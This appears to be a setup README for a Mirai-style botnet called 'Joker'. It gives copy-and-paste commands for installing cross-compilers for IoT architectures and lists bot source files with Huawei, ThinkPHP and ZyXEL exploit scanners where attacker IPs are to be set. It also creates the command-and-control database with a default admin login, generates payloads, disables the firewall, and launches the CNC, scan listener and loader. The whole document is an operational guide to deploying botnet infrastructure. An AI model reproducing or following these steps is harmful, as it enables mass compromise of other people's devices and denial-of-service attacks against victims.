 - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Installing Everything: U need Centos 6 for this 
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Copy & Paste This: yum update -y; yum install epel-release -y; yum groupinstall "Development Tools" -y; yum install gmp-devel -y; ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10; yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Copy & Paste This: rm -rf /usr/local/go; wget https://dl.google.com/go/go1.10.3.linux-amd64.tar.gz; sha256sum go1.10.3.linux-amd64.tar.gz; sudo tar -C /usr/local -xzf go1.10.3.linux-amd64.tar.gz; export PATH=$PATH:/usr/local/go/bin; source ~/.bash_profile; rm -rf go1.10.3.linux-amd64.tar.gz
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Copy & Paste This: mkdir /etc/xcompile; cd /etc/xcompile; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2; wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2; wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2; tar -jxf cross-compiler-i586.tar.bz2; tar -jxf cross-compiler-m68k.tar.bz2; tar -jxf cross-compiler-mips.tar.bz2; tar -jxf cross-compiler-mipsel.tar.bz2; tar -jxf cross-compiler-powerpc.tar.bz2; tar -jxf cross-compiler-sh4.tar.bz2; tar -jxf cross-compiler-sparc.tar.bz2; tar -jxf cross-compiler-armv4l.tar.bz2; tar -jxf cross-compiler-armv5l.tar.bz2; tar -jxf cross-compiler-armv6l.tar.bz2; tar -jxf cross-compiler-armv7l.tar.bz2; rm -rf *.tar.bz2; mv cross-compiler-i586 i586; mv cross-compiler-m68k m68k; mv cross-compiler-mips mips; mv cross-compiler-mipsel mipsel; mv cross-compiler-powerpc powerpc; mv cross-compiler-sh4 sh4; mv cross-compiler-sparc sparc; mv cross-compiler-armv4l armv4l; mv cross-compiler-armv5l armv5l; mv cross-compiler-armv6l armv6l; mv cross-compiler-armv7l armv7l; cd /tmp; wget https://storage.googleapis.com/golang/go1.8.3.linux-amd64.tar.gz -q; tar -xzf go1.8.3.linux-amd64.tar.gz; mv go /usr/local/go; cd ~/
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Change IP's:
/bot/huawei.c Find wget
/bot/thinkphp.c Find wget
/bot/zyxel_scanner.c Find wget
/bot/includes.h  (4 Places)
/cnc/main.go 
/dlr/main.c  
/loader/src/main.c (Lines 30, 31, Twice on 42)
/scanListen.go
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Install mysql make the password root
Copy & Paste This: service mysqld start; mysql_secure_installation
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Log into mysql:
Copy & Paste This: mysql -u root -p
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Copy & Paste This:

CREATE DATABASE Joker;
use Joker;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'clown', 'clown1337', 0, 0, 0, 0, -1, 1, 30, '');

CREATE TABLE `logins` (
  `id` int(11) NOT NULL,
  `username` varchar(32) NOT NULL,
  `action` varchar(32) NOT NULL,
  `ip` varchar(15) NOT NULL,
  `timestamp` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP
) ENGINE=InnoDB DEFAULT CHARSET=latin1;
exit;
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Copy & Paste This: cd ~/; chmod 0777 * -R; sh build.sh
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Copy & Paste This: python payload.py; service httpd restart 
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
iptables -F;service iptables stop 
service httpd restart  
service mysqld restart
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
nano /usr/include/bits/typesizes.h
scroll down and edit the 1024 to 999999
THEN SAVE IT WITH: ctrl X and then Y
Copy & Paste ulimit -n999999; ulimit -u999999; ulimit -e999999
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
cd ~/
screen -S cnc ./cnc
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
cd loader/
screen -S rep ./scanListen 
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
screen -S loader
./run.sh
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
